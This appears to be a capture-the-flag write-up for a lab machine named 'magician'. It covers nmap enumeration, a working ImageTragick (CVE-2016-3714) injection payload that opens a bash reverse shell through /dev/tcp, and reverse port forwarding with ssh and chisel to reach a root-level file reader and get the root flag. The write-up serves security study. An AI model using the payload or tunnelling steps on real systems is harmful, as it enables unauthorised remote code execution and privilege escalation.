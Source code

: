 ##Magician

tag CVE-2016-3714
add magician to /etc/hosts

#Enumeration
```
# Nmap 7.91 scan initiated Sun Feb 21 19:53:49 2021 as: nmap -sC -sV -oN nmap/initial -vvv -p 21,8080,8081 10.10.171.198
Nmap scan report for magician (10.10.171.198)
Host is up, received echo-reply ttl 61 (0.15s latency).
Scanned at 2021-02-21 19:53:50 PST for 38s

PORT     STATE SERVICE    REASON         VERSION
21/tcp   open  ftp        syn-ack ttl 61 vsftpd 2.0.8 or later
8080/tcp open  http-proxy syn-ack ttl 61
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 03:53:59 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T03:53:59.336+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 03:53:58 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T03:53:58.219+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions:
|     HTTP/1.1 404
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Mon, 22 Feb 2021 03:53:58 GMT
|     Connection: close
|     {"timestamp":"2021-02-22T03:53:58.649+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest:
|     HTTP/1.1 505
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Mon, 22 Feb 2021 03:53:58 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       syn-ack ttl 61 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.91%I=7%D=2/21%Time=60332AD5%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,13B,"HTTP/1\.1\x20404\x20\r\nVary:\x20Origin\r\nVary:\x20Acces
SF:s-Control-Request-Method\r\nVary:\x20Access-Control-Request-Headers\r\n
SF:Content-Type:\x20application/json\r\nDate:\x20Mon,\x2022\x20Feb\x202021
SF:\x2003:53:58\x20GMT\r\nConnection:\x20close\r\n\r\n{\"timestamp\":\"202
SF:1-02-22T03:53:58\.219\+0000\",\"status\":404,\"error\":\"Not\x20Found\"
SF:,\"message\":\"No\x20message\x20available\",\"path\":\"/\"}")%r(HTTPOpt
SF:ions,13B,"HTTP/1\.1\x20404\x20\r\nVary:\x20Origin\r\nVary:\x20Access-Co
SF:ntrol-Request-Method\r\nVary:\x20Access-Control-Request-Headers\r\nCont
SF:ent-Type:\x20application/json\r\nDate:\x20Mon,\x2022\x20Feb\x202021\x20
SF:03:53:58\x20GMT\r\nConnection:\x20close\r\n\r\n{\"timestamp\":\"2021-02
SF:-22T03:53:58\.649\+0000\",\"status\":404,\"error\":\"Not\x20Found\",\"m
SF:essage\":\"No\x20message\x20available\",\"path\":\"/\"}")%r(RTSPRequest
SF:,259,"HTTP/1\.1\x20505\x20\r\nContent-Type:\x20text/html;charset=utf-8\
SF:r\nContent-Language:\x20en\r\nContent-Length:\x20465\r\nDate:\x20Mon,\x
SF:2022\x20Feb\x202021\x2003:53:58\x20GMT\r\n\r\n<!doctype\x20html><html\x
SF:20lang=\"en\"><head><title>HTTP\x20Status\x20505\x20\xe2\x80\x93\x20HTT
SF:P\x20Version\x20Not\x20Supported</title><style\x20type=\"text/css\">bod
SF:y\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1,\x20h2,\x20h3,\x20b\x
SF:20{color:white;background-color:#525D76;}\x20h1\x20{font-size:22px;}\x2
SF:0h2\x20{font-size:16px;}\x20h3\x20{font-size:14px;}\x20p\x20{font-size:
SF:12px;}\x20a\x20{color:black;}\x20\.line\x20{height:1px;background-color
SF::#525D76;border:none;}</style></head><body><h1>HTTP\x20Status\x20505\x2
SF:0\xe2\x80\x93\x20HTTP\x20Version\x20Not\x20Supported</h1></body></html>
SF:")%r(FourOhFourRequest,15E,"HTTP/1\.1\x20404\x20\r\nVary:\x20Origin\r\n
SF:Vary:\x20Access-Control-Request-Method\r\nVary:\x20Access-Control-Reque
SF:st-Headers\r\nContent-Type:\x20application/json\r\nDate:\x20Mon,\x2022\
SF:x20Feb\x202021\x2003:53:59\x20GMT\r\nConnection:\x20close\r\n\r\n{\"tim
SF:estamp\":\"2021-02-22T03:53:59\.336\+0000\",\"status\":404,\"error\":\"
SF:Not\x20Found\",\"message\":\"No\x20message\x20available\",\"path\":\"/n
SF:ice%20ports%2C/Tri%6Eity\.txt%2ebak\"}");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 21 19:54:28 2021 -- 1 IP address (1 host up) scanned in 38.50 seconds
```
#FTP
allows anonymous login after a delay but simply instructs to imagetragik.com to discuss the cve vulnerability

#8080
Enumeration here finds a /file directory which provides a json listing of files uploaded from port 8081

#8081
This allows us to upload pngs to be converted into jpgs
We need to adjust our imagetragik payload to be able to provide us a reverse shell through this exploitable conversion using imagemagick
fill 'url(https://IP/logo.dbb7e574.png";bash -c \'bash -i >& /dev/tcp/IP/PORT 0>&1\'")'
ends up being a usable payload, seems like url format needs to be 
https://[url]/image.png";[RCE]")'

We find the user flag in the magician home directory
```
cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
magician@magician:~$
```

locally listening seems to imply we should check what ports are open locally so
we run the following
```
ss -tunlp
Netid State   Recv-Q  Send-Q          Local Address:Port     Peer Address:Port
udp   UNCONN  0       0               127.0.0.53%lo:53            0.0.0.0:*
udp   UNCONN  0       0           10.10.197.57%eth0:68            0.0.0.0:*
tcp   LISTEN  0       128             127.0.0.53%lo:53            0.0.0.0:*
tcp   LISTEN  0       128                 127.0.0.1:6666          0.0.0.0:*
tcp   LISTEN  0       128                   0.0.0.0:8081          0.0.0.0:*
tcp   LISTEN  0       32                          *:21                  *:*
tcp   LISTEN  0       100                         *:8080                *:*      users:(("java",pid=1004,fd=25))
```
so lets forward this port us remotely through an ssh tunnel. We can forward this post to ourselves through the following

ssh -R 6666:localhost:6666[user]@[local ip]

#Chisel method
wget the chisel binary from our machine

on target 
```
./chisel client [our ip]:[our port] R:[open local port]:127.0.0.1:6666
```
on our machine
chisel server --reverse --port [our port]


we can then set up an http proxy on port 6666 for localhost and we are presented a new page when we go to magician:8080 seems like we can read files from the system but with root privilege so we simply choose the file /root/root.txt and we have our flag
